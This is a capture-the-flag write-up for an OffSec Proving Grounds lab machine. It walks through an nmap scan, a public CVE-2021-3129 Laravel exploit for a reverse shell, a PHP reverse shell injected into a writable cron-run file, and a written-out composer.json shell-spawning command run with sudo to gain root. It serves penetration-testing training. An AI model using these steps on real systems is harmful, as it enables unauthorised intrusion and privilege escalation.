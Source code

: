 ```yaml
---
title: CTF-200-07 (OffSec. Proving Grounds)
image: /assets/writeups/trace10.jpg
description: Write-up of CTF-200-07 Machine
date: 2023-12-29
categories: [proving grounds]
tags: [lavaral, CVE, LAvita, linux]
author: trace

---
```


## Enumeration:

```bash
nmap -sC -sV <IP>
```

```xml
Host is up, received syn-ack (0.23s latency).
Scanned at 2023-12-28 00:54:45 IST for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

So we found two ports open `22` & `80`

#### Port 80:

Visiting Port `80` we see a web app running which is also running **Laravel 8.4.0**, Quick Google Search and I found [CVE-2021-3129](https://security.snyk.io/vuln/SNYK-PHP-FACADEIGNITION-1059267)

> [POC](https://raw.githubusercontent.com/joshuavanderpoll/CVE-2021-3129/main/CVE-2021-3129.py)

## www-data:

We can use this POC to execute the commands like:

![poccheck.png](../../static/images/writeups/2023-12-27-CTF-200-07/poccheck.png)

Running the POC to get callback for reverse shell,

![gettingrev1.png](../../static/images/writeups/2023-12-27-CTF-200-07/gettingrev1.png)

and we get the user shell

![rev2.png](../../static/images/writeups/2023-12-27-CTF-200-07/rev2.png)

## Getting User:

User skunk belong to sudo(27) group (Found in linPEAS result). So we need to get shell as user skunk.

Running Pspy to check for the necessary files and ways we can get the skunk shell and i found this php file running which belongs to user `Skunk` 

![pspyresult.png](../../static/images/writeups/2023-12-27-CTF-200-07/pspyresult.png)

And we have Write Access to it, 

![writeaccess.png](../../static/images/writeups/2023-12-27-CTF-200-07/writeaccess.png)

Injecting a PHP reverse shell will get us the shell as user `Skunk`

![Screenshot_2023-12-28_11-47-12.png](../../static/images/writeups/2023-12-27-CTF-200-07/Screenshot_2023-12-28_11-47-12.png)

## Getting Root:

Sticking to the basics i ran `sudo -l` and i found 

```bash
skunk@debian:/$ sudo -l
sudo -l
Matching Defaults entries for skunk on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User skunk may run the following commands on debian:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/composer --working-dir\=/var/www/html/lavita *

```

And [GTFO](https://gtfobins.github.io/gtfobins/composer/#limited-suid) has exploit method for composer, we follow the path 

```bash
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >/var/www/html/lavita/composer.json
```

Since only `www-data` has write access to it, so do this whilst being in the `www-data` shell and then back to `Skunk` shell we run

```bash
sudo /usr/bin/composer --working-dir=/var/www/html/lavita run-script x
```

and we get root shell

![root.png](../../static/images/writeups/2023-12-27-CTF-200-07/root.png)


